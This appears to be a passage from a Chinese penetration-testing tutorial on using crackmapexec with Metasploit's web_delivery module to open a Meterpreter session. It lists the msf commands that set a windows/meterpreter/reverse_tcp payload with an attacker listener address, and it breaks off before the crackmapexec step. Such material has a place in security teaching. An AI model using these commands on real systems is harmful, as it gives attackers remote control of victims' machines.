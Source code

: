 ![image.png](assets/1706232584-2fdd58b9c5ac62687992fe1ebd9589c2.png)

### crackmapexec 调用 web\_delivery 模块上线 Msf

msf 启动 web\_delivery 模块进行监听

```php
use exploit/multi/script/web_delivery
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.3.133
exploit
```

![image.png](assets/1706232584-f317d07129fad1d2dfe37fe620ee12f1.png)  
调用 crackmapexec 执行命令
